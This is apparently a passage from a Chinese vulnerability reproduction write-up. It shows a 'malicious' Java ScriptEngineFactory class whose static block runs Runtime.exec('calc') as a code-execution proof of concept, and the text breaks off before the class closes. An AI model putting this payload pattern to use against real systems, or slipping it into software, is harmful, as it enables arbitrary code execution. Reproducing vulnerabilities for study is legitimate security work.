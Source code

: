 ## 漏洞复现

创建一个恶意文件

```java
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class SEM implements ScriptEngineFactory {
    static {
        try {
            System.out.println("hacker!!");
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }
```
